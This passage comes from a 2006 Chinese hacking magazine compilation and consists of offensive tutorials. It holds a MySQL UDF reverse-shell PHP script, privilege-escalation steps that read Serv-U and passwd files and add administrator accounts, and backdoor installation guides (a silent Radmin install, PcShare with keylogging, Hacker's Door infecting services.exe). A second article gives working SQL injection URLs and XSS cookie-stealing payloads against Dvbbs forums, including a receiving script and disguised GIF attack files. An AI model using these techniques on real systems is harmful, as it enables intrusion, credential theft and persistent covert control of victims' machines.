$dll_path='c:\\fuckmix.dll';
//Shell设置
$host='127.0.0.1';
$port=5000;
//-=-=-=-=$link=MYSQL_connect($host,$user,$pass);
if (!$link) {
die('Could not connect: ' . MYSQL_error());
}
echo "Connected successfully as root"
echo "Create Function Myconnect....";
$query="create function myconnect returns integer soname '".$dll_path."'";
//echo $query;
$result = MYSQL_query($query, $link) or print ("Cannot Create Fun, Sorry!");
echo "Ok!!";echo "Select Function ....";
$query="select myconnect('".$host."',".$port.")";
//echo $query;
$result = MYSQL_query($query, $link);
echo "Ok!!";
sleep(1);echo "Drop Function ....";
$query="drop function myconnect";
$result = MYSQL_query($query, $link);
MYSQL_close($link);
echo "Ok!!";
```

#### 无法创建函数时，如何取得管理员权限

如果我们可以通过MySQL上传二进制文件,而不能通过注册UDF DLL中自定义Function函数来执行任意命令。

##### 1.启动等待法

我们可以把要执行的程序加到启动项里面,比如写一个简单的加账号的批处理文件,内容如下: net user test test /add del test.bat /f /q。执行命令MYSQL_upfile.exe test.bat 43 C:\\Documents and Settings\\All Users\\[开始]菜单\\程序\\启动\\test.bat >c:\test.txt,然后登录远程MySQL主机,执行\\. C:\test.bat,就把test.bat传到远程机器的所有用户的启动里面了。哈哈,就等远程机器重新启动了。成功写入启动的机器是Windows 2000 Server版。但在XP上做实验时遇到输汉字的目录时,输出时是乱码,希望高手指数。此批处理文件在开机执行时会弹出一个命令窗口,给大家介绍一款优秀的反弹木马。如图8,图9所示。


www.hacker.com.cn 2006精华奉献本 下册

编辑手记: 2006年即将过去,这一年里黑客站点被黑的事件层出不穷,先有黑客基地被黑,后有黑客动画吧被黑,前一段时间就连黑基也被黑,难道黑客站点真的这么脆弱?国内 hackers.com.cn 和 www.hacker.com.cn 与黑客动画吧之间的恩怨情仇我们不去评说,单说黑客站点本身的安全就值得关注,试想一个黑客站点都被黑了,还怎么好意思叫黑客站点?但愿2007年黑客站点的安全能有所改善。



图9

##### 2.Serv-U提权法

很多装有MySQL的机器同时也装有Serv-U,特别是虚拟主机给每一个用户开一个FTP账户,方便用户的更新。可以通过MySQL读出它的密码档文件ServUDaemon.ini,如果遇到明文的密码,可以通过FTP直接上传Shell,如果是密文可以查看Web路径然后通过MySQL导出Shell。接下来结合一下具体的例子给大家演示一下。

首先导出密码档文件ServUDaemon.ini,在MySQL提示符下输入\\. c:\getservupwd.txt

Getservupwd.txt脚本内容如下:

```sql
use MYSQL;
create table yy(data TEXT);
insert into yy values("");
load data infile "c:\\program files\\serv-u\\servudaemon.ini" into table yy;
select data from yy; \T c:\ServUDaemon.ini
drop table yy;
```

执行完毕后,就可以在你的C盘下看ServUDaemon.ini的内容了。如果Serv-U未安装在C盘,可以试一下是否在D盘上,经多次实验很多管理员都是默认路径安装的,如果是自定义安装到一个"变态"的路径,哪就没的玩了。密码档内容如图10所示。

```
[USER=ntytyjj]
Password=098A9B51
HomeDir=e:\0513dccomtyyjj.com
RelPaths=1
TimeOut=600
Access1=e:\0513dccomtyyjj.com|RWAMELCDP
[USER=ouall]
Password=d3e8a8e8
HomeDir=e:\0513dccomova.com.cn
RelPaths=1
TimeOut=600
Access1=e:\0513dccomova.com.cn|RWAMELCDP
```

图10

有了密码档,我们想办法来上传WebShell,50多个用户,密码还是明文的(第一次遇到),上传WebShell。但是我们经常遇到密码是经过加密的,如果你有时间有好的机器不反对爆破,在这里可以通过密码档找到网站的物理路径。细心的朋友一定注意到了,上面密码档的HomeDir后面的路径里面没有"\",这主要是因为MySQL在读时没有读出来,但是我们可以猜测出来的。很多管理员在给不同的站点建目录的时候是有规律的,经常是以它们的网站名称来建目录,利用这一点再结合密码档中的USER这个参数值,再对比一下不同几个站点的HomeDir你就不难发现在哪里省略了"\",有了物理路径,利用前面讲的方法就可以把Shell上传上去了。最后,想办法提权限。

1.查看是否装有PcAnyWhere,这个站的PcAnyWhere的密码档的路径有点变态,一般密码档都放在All Users目录下,而它放在All User.WINNT目录下了,晕倒!害的我找了老半天。使用PcAnyWhere远程连接登录,还需要Windows 2003登录密码。拿PcAnyWhere的试了试不对,找到my.ini文件看了看root的口令,拿来试了试也不对,没办法再想别的办法吧!如图11所示。



2.找SA密码,拿PcAnyWhere和MySQL的root口令连MSSQL数据库都没成功,浏览了好几个站的数据库连接文件都没找到SA口令,看来是真的没了,再想别的办法吧。

3.还是拿Serv-u开刀吧。分别上传ASP和PHP的Shell后,均无法执行命令,郁闷啊,有些朋友在想办法时可能会抽根烟慢慢想,咱不抽烟,抽烟有害身体健康,还是洗个西红柿,边吃边想吧。黑防上曾有一篇文章,在不能执行命令时利用ASP程序来如何提权,可惜手头没有,问了几个朋友也没有,只好放弃。跟朋友借了一个PHP下的SERV-U提权的程序,可惜实验时报错。这时想到了上传一个ASP.NET的Shell上去试试,传了lake2写的一个Shell上去,哇,能执行命令,如图12所示。



DOS窗口的Shell用习惯了,在肉鸡上用NC反向连接个Shell出来,如图13所示。



虽然有了Shell而且能执行命令,但是现在的权限还是不够。传了一个SU.EXE上去看看是否能提升权限,虽然经常利用它提权成功,可以加一个管理员用户,但是这次失败了,看来是真的没的玩了,真想放弃了。

有心栽花花不放,无心插柳柳成荫。在不经意间读SERV-U密码档的时候竟然发现了一个具有执行权限的用户,再加上密码是明文,用FTP登录执行命令:

```
quote site exec "net user username passwd /add"
quote site exec "net localgroup administrators username /add"
```

添加用户成功,可以3389登录了,如图14所示。


3.以上主要是针对Windows系统的,对UNIX和Linux简单说几句。

```sql
use MySQL;
create table yy(data TEXT);
insert into yy values("");
load data infile "\/etc\/passwd" into table yy;
select data from yaiy;\T c:\passwd.txt
drop table yy;
```

利用以上脚本可以读出passwd的内容,可以看出网站站的路径。再结合明小子的域名查询工具domain.exe,猜测网站上的可写目录,通过图片所在的目录可写。利用前面的方法用MySQL写个phpspy.php上去。看是否能执行命令,ID一下看看,如果是root,运气好。如果不是,用uname -a一下查看版本,去找牛人写的exploit程序,行不行就看运行了。

#### 如何做到“肉鸡常相伴”

辛苦了好大一阵,好不容易反向连接一个系统权限的Shell,接下来该加后门了。如果在安装后门时不成功可能是有杀毒软件,可以利用net stop停掉服务,或利用pskill.exe杀掉相应进程。

- 1.经典黑客工具MT
强烈建议大家也在反向连接Shell前,先上传一个MT上去,当然你也可以把自己经常用的工具提前上传上去。先克隆账号,Guest账号通常被管理员禁止了。Net user guest passwd给guest改个密码,Mt.exe clone Administrator guest把guest克隆成管理员。可以利用Mt.exe chkuser检查是否克隆成功。如果未开3389可以用Mt.exe setupts开启。还可以用mt.exe netget下载别的后门程序。如果没有提前上传MT,可以利用tftp.exe | get IP removefilename localfilename。



- 2.一款优秀的反向连接后门Pcshare
想办法申请一个HTTP网络空间,并能通过FTP登录。点“生成客户”按钮配置被控端程序。IP地址和端口填入等待控制端连接的地址和端口。选中“启


### FIRST EXPLOIT
> 栏目编辑 wtf wtf@hacker.com.cn

用自备URL转发本机IP地址，在指定转发URL中填入你的HTTP空间，如yy.txt中存放的等待控制端连接的地址和端口，可以通过IP刷新功能随时更新，更好地适应动态变化的用户。宿主进程名可根据自己不同需求选择，选中运行后自删除和键盘监控，点击生成，控制端就配置好了。有了运行后自删除功能，我们可以把它放到启动里面，它运行后既不会弹出窗口，又自动删除。它的键盘记录功能非常有助于进一步渗透，如图15所示。


如安装不成功很有可能是被杀毒软件查杀（如瑞星、诺顿），可以利用前面讲的方法先把杀毒软件关掉。

##### 3. Radmin也疯狂

安装radmin需上传5个文件r_server.exe, AdmDll.dll, raddrv.dll, r_regadmin.reg, install.bat

radmin.reg内容如下

```
[HKEY_LOCAL_MACHINE\SYSTEM\RAdmin]
[HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0]
[HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server]
[HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\iplist]
[HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters]
"Port"=hex:ed,0c,00,00  //所开的端口
"Timeout"=hex:0a,00,00,00
"EnableLogFile"=hex:00,00,00,00
"LogFilePath"="c:\\logfile.txt"
"FilterIp"=hex:00,00,00,00
"DisableTrayIcon"=hex:01,00,00,00
"AutoAllow"=hex:00,00,00,00
"AskUser"=hex:00,00,00,00
"EnableEventLog"=hex:00,00,00,00
"NTAuthEnabled"=hex:00,00,00,00
"Parameter"=hex:99,b6,39,73,3c,39,98,a4,d3,8d,11,76,48,ef,2e,0f  //密码
```

建一批处理文件install.bat文件，内容如下

```
regedit /s radmin.reg
r_server.exe /install /silence
net start r_server
```

```
del radmin.reg /f /q
del install.bat /f /q
```

上传完毕后运行一下install.bat后门就安装好了。

💡 在上传多个文件时，可以先利用WinRAR压缩，然后再利用命令行工具rar.exe解压。

黑客之门1.2安装方法加大。

①感染系统文件的安装方式

💡 以下所有演示过程都是在命令行窗口下进行的，其中‘DllRegisterServer’是大写敏感的。

```
C:\>rundll32 hkdoordll,DllRegisterServer oconime.exe
```

其中hkdoordll是黑客之门服务器端，必须放在system32目录下，可以改名。conime.exe是你要感染的进程，默认是services.exe，如果要感染系统文件，在system32目录下的不用带路径，其它的就要带路径。第一个1是安装方式，0表示只感染系统文件，1表示只感染进程，2表示感染系统文件，同时感染进程，默认是2；第2个是启动方法，0是通过创建svchost启动的服务来启动后门，1是通过感染系统文件来启动后门，默认是1。

```
C:\>rundll32 hkdoordll,DllRegisterServer
```

上面是默认安装方式，它会感染services.exe文件，以便在系统重启时启动后门，同时把自己加载到services.exe进程中。要判断有没有安装成功，就要看system.tmp里的信息，它放在%winnnt%\temp目录下，方法如下：C:\WINNT\temp>type system.tmp  //这个文件的生成会有延时，多试几次 系统找不到指定的文件。

②通过svchost启动服务的安装方式

在命令行下运行‘rundll32 hkdoordll,DllRegisterServer 服务名 2 0’就可以了，其中‘服务名’必须合法，如运行‘rundll32 hkdoordll,DllRegisterServer lprip 20’，就创建用svchost.exe来启动的lprip服务来启动黑客之门，如果你不知道合法的服务名，可以先随便给一个，然后到日志里去看合法的服务名列表。

#### 记录密码法

所谓记录密码法就是登录进它的系统后，可以利用黑客之门或利用mt -findpass查看当前系统用户的密码，很多管理员的密码都是相当‘变态’的！下载SERV-U密码档，破解PcAnyWhere密码，记录MySQL的ROOT密码，如能发现sa密码当然再好不过，如果没有可以利用命令加一个SA权限的用户：

```
exec master.sp_addlogin UserName,Password
exec master.sp_addsrvrolemember UserName,sysadmin
```

以上几种后门的查找与清除也比较简单，在此不再赘述，文章有不当之处请高手指数。

WTF：自从2004年黑防杂志上登出《把DVBBs送下地狱》等一系列重量级动网漏洞攻击文章之后，2005年llikez又在大爆新版动网7.1漏洞，本文再次放出动网的几个新漏洞，希望这种对流行站点bug孜孜以求的精神能继续在黑客防线传承下去。下一个在黑防连载漏洞的人，最好就是你了！

适合读者：脚本爱好者，入侵爱好者
前置知识：跨站基础知识

### 夏日动网
### 漏洞不断

文/图 llikez

正因为动网论坛拥有超过50%的中国用户，成为中国论坛领域事实上的标准，所以自去年动网论坛7.0.0 SP2以下所有版本发现上传漏洞后，国内网络被搞得鸡犬不宁。各大论坛的管理员，网管也愈来愈重视动网官方的动态，所有论坛程序基本都升级到7.0.0 SP2，或者是最新的7.1.0了，是不是这些版本就足够安全，足够强壮了呢？当然并非如此，自从本人发现最新版本中的admin_postings.asp文件存在注入漏洞后，官方论坛丝毫没有打补丁的意思。可能他们以为漏洞利用起来比较困难，需要前台管理员权限，但是如果我们再结合传说中的温柔杀手：跨站脚本攻击，就会大大提高我们提升权限的几率。更令人“兴奋”的是结合recycle.asp的注入漏洞，对Access版本也显奇效。无论是7.0.0的还是7.1.0的都受影响。首先说说这个漏洞吧。

打开recycle.asp

```
<!--#include file="conn.asp"-->
<!-- #include file="inc/const.asp" -->
<!-- #include file="inc/DvADChar.asp" -->
<!-- #include file="inc/dv_ubbcode.asp" -->
<%
Rem 修改记录：2004-5-3 行396 Dvbbs.YangZheng
Server.ScriptTimeOut=999999
dim bBoardEmpty
dim totalrec
dim n,RowCount
dim p
dim currentpage,page_count,Pcount
dim tablename
Dvbbs.stats="论坛回收站"
Dvbbs.nav()
If Not Dvbbs.master Then Response.redirect "showerr.asp?ErrCodes=<li>您没有权限浏览本页。&action=OtherErr"
Dvbbs.ShowErr()
Dvbbs.Head_var 2,0,"",""
Dim EmotPath
EmotPath=Split(Dvbbs.Forum_emot,"|")(0)
Dim dv_ubb,abgcolor
Set dv_ubb=new Dvbbs_UbbCode
If Request("reaction")="manage" Then
    dim topicid
    Dim trs,UpdateBoardID
    Dim fixid
    Manage_Main()
ElseIf Request("reaction")="view" Then
    View()
Else
    Main()
End If

Call Dvbbs.activeonline()
call Dvbbs.footer()
'大家再看看调用的Manage_Main函数和View函数，就会发现如下代码：
If request("tablename")="dv_topic" Then
    tablename="dv_topic"
ElseIf InStr(request("tablename"),"bbs")>0 Then
    tablename=Trim(request("tablename"))
    If Len(tablename)>8 Then
        Response.redirect "showerr.asp?ErrCodes=<li>错误的系统参数! &action=OtherErr"
    End If
Else
    Response.redirect "showerr.asp?ErrCodes=<li>错误的系统参数! &action=OtherErr"
End If
```

显然是对tablename过滤了，长度不能超过8，虽然能注入，但是实在没有价值可言。没关系，我们再看看如果我们提交的action为空，程序就会执行main函数，这个函数调用的是AnnounceList1，我们再找到这个函数看看吧。

```
Sub AnnounceList1()
'省略了无用代码，免得跟上次一样又说他骗稿费咯……
    If instr1(case(request("tablename")),"bbs")>0 then
        SQL="select AnnounceID,boardID,UserName,Topic,body,DateAndTime from "&replace(request("tablename"),"\"","")&" where boardid=444 and not parentid=0 order by announceid desc"
        tablename=request("tablename")
    Else
        SQL="select topicID,boardID,PostUserName,Title,title as body,DateAndTime from dv_topic where boardid=444 order by topicid desc"
        tablename="dv_topic"
    End If
    set rs=server.createobject("adodb.recordset")
    If Not IsObject(Conn) Then ConnectionDatabase
    rs.open SQL,conn,1,1
    if rs.bof and rs.eof then
        '论坛无内容
call showEmptyBoard()
else
rs.PageSize = cint(Dvbbs.Forum_Setting(11))
rs.AbsolutePage=currentpage
page_count=0
totalrec=rs.recordcount
call showPageList()
end if
End sub
```

这里没有对tablename限制长度，太“好”了！不过遗憾的是注入只能实现只读的查询，不能修改数据库内容，没关系，我们可以利用union查询把dv_log中记录的后台管理账号和密码一次性查询出来，还不够“爽”，通杀SQL版本和Access版本。

构造以下查询语句：

```
http://127.0.0.1/recycle.asp?tablename=Dv_bbs1%20union%20select%201,2,1,content,4,5,6%20from%20dv_log%20where%20id=30%20union%20select%201,1,1,1,1,1,1,d%20from%20dv_bbs1
```

注意到_id了吗？我们查询的时候通过递增_id的值来遍历_content字段中的内容，如果_id选取的合适，就能直接得到明文账号和密码，如图1所示。



看到了吗？以上显示的后台账号是!likz，密码是111111，前台管理员账号是admin。得到后台管理权限，上传WebShell绝非难事。

说了这么多，别太“兴奋”了，只有前台管理员才有权限对回收站进行操作。不过比起admin_postings.asp的注入不仅实现起来比较容易。而且能对Access版本进行攻击。下面我们就为获得前台管理员权限努力吧。只要能够实现这个条件，两个注入漏洞都能实现了。

关于利用跨站脚本攻击获得管理员的cookie信息，方法多种多样，可跨站攻击的文件也有不少，比如众所周知的showerr.asp，不过这个文件的跨站漏洞在7.1.0版本中已经修补，但是还有其它很多文件存在此漏洞，就拿cookies.asp来说吧，打开以下连接

```
http://127.0.0.1/cookies.asp?action=setlistmod&id=);</script><script>alert(document.cookie)</script>
```

看看是不是你的cookie信息弹出来了。如图2所示。



图2

我们先说一种简单的实现起来比较容易的方法（当然隐蔽性不是很高），首先建立一个ASP文件用于接收cookie信息，文件内容如下：

```
<% 
Set cookie=Server.CreateObject("Adodb.Stream") 
cookie.Open 
cookie.Type=2 
cookie.Charset="gb2312" 
cookie.WriteText(request("cookie")) 
cookie.SaveToFile(server.mappath(month(now)&day(now)&hour(now)&minute(now)&second(now)&".txt")) 
cookie.Close
set cookie=Nothing
%>
```

保存为save.asp放到支持ASP的空间。然后再建立文本文件，内容如下：

```
<html>
<body>
<iframe width=0 height=0 src="http://127.0.0.1/showerr.asp?action=OtherErr&ErrCodes=<form name=redir action=http://127.0.0.1/save.asp method=post><input type=hidden name=cookie></from><script>redir.cookie.value=document.cookie;redir.submit();</script>"></iframe>
</img>
</body>
</html>
```

http://127.0.0.1/save.asp请修改为自己的接收cookie信息的文件，http://127.0.0.1/showerr.asp请修改为你要攻击的论坛的地址。

将以上代码保存为up.gif。在论坛中选择发表新话题，将这个文件上传上去得到上传文件的地址：http://127.0.0.1/UploadFile/2005711052664.gif，给管理员发送如下的短消息。如图3所示。

看看管理员收到什么了。如图4所示。

这样只要管理员点击上面的连接，他的cookie信息就发到自己的空间，不信去看看。如图5所示。

接下来我们改进以下这种方法，如果将管理员的cookie信息作为短消息发到自己的收信箱里岂不更“爽”，将原来的up.gif内容修改一下，改为以下的内容

```
<html>
<body>
<iframe width=0 height=0 src="http://127.0.0.1/showerr.asp?action=OtherErr&ErrCodes=<form name=redir action=http://127.0.0.1/messanger.asp?action=send
```


图3


图4


图5

```
method=post><INPUT type=hidden name=touser value=llikz>
<INPUT type=hidden name=title value=cookie><INPUT type=text name=message><INPUT type=hidden name=sms_act value=Sms_Issend></form><script>document.redir.message.value=document.cookie;document.redir.submit();</script>"</iframe>
</img>
</body>
</html>
```

这样就能够绕过checkpost函数以post方式将管理员cookie信息发送到自己信箱了，注意<INPUT type=hidden name=touser value=llikz>这个修改为自己注册的账号来接收短消息。这样只要欺骗管理员打开连接，就会收到类似如下的短信息。如图6所示。

以上的方法都有缺点，当管理员在打开假图片的时候，通过浏览器状态栏显示的状态信息很容易被识破。那我们就利用动网论坛自定义头像功能实现跨站攻击。

选择控制面板，基本资料修改。在自定义头像地址中写入><iframe src=http://127.0.0.1/index.asp></iframe><再看一下自己的个人资料。如图7所示。

哈哈，成功了，不过在自定义头像地址过滤了Java脚本，所以只能嵌入iframe框架。


图6


图7

不过在这里嵌入以上方法上传的脚本图片就能用来获取cookie信息了。比如我嵌入的是test.gif，文件内容是

```
<html>
<body>
<script>alert(document.cookie)</script>
</body>
</html>
```

再查看一下自己的个人资料。如图8所示。


图8

这样只要欺骗管理员访问自己的个人资料，就神不知鬼不觉地得到访问者的cookie信息了。通过cookie欺骗得到前台管理权限，再用recycle.asp注入漏洞即可轻松获得后台管理权限。只要大家灵活运用以上方法，“攻入”不倒的动网论坛绝非难事。


适合读者：脚本爱好者，入侵爱好者
前置知识：ASP基础

#### 戏耍版主
##### follow me

文/图 ILKKE

流行的东西，不一定就是好东西。就拿论坛的个性签名来说吧，不知道从什么时候，个性签名已经成为一种时尚，一种潮流，也就理所当然成为论坛系统必不可少的模块了。孰不知个性签名带来的隐患却成为论坛杀手，轻则导致敏感信息泄露，严重的导致论坛结构被破坏，主页被修改。通过个性签名进行攻击，其实是对跨站脚本攻击的一种变形。可怕的是即使使用各种手段对个性签名内容进行过滤也无济于事。就拿动网论坛来说，即使对个性签名使用了UBB代码，也不能防止通过个性签名进行的攻击。可以这么说，只要个性签名有显示图片等最基本的功能，就会带来很多安全隐患，隐患大小与论坛系统的健壮性直接相关。

一般论坛系统都有前台管理权限和后台管理权限，如果系统把过多的权限放在了前台，并且在处理前台管理员操作的时候没有进行一定的防范，主要是对get动作的防范，将会导致前台管理权限的泄露，即任何人将前台管理操作的代码写入到个性签名，使得具有管理权限的用户浏览任何包含恶意个性签名代码的帖子时都会进行恶意的管理操作。它影响到的论坛系统相当的广泛，包括dvbbss，bbsxp，leadbbs等asp论坛程序及phpbb，discuz等php论坛程序。

下面就先来介绍一下通过个性签名实现攻击动网论坛的方法。通过例子大家就会明白其中的原理了。

##### 牛刀小试

咱们先来找个简单的前台管理操作，就拿首页发表公告的功能来开涮了。打开announcements.asp，我发现论坛对发表公告的处理没有进行POST限制，主要是看处理提交的参量有没有使用request.form()，对动网论坛还要看看有没有调用ChkPost()函数，它的代码如下

```vb
Rem 判断发言是否来自外部
